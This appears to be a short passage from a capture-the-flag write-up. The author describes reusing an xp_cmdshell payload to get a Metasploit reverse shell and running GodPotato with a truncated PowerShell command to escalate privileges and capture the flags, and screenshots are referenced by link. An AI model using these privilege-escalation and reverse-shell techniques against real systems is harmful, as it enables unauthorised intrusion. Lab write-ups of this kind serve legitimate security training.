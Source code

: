 ![7c037362d6d4f9d627f1364a46026b62.png](/resources/7c037362d6d4f9d627f1364a46026b62.png)

I use the same payload used in `xp_cmdshell` to get a reverse shell in metasploit and now I can loot both user and root flag to root the box :D
```
GodPotato-NET4.exe -cmd "powershell.exe...<SNIP>""
```
![e8f1424d867f34a80822110d2f20e8ba.png](/resources/e8f1424d867f34a80822110d2f20e8ba.png)

User flag

![b5a030b37c82ac7e211d6f9f22101fb7.png](/resources/b5a030b37c82ac7e211d6f9f22101fb7.png)
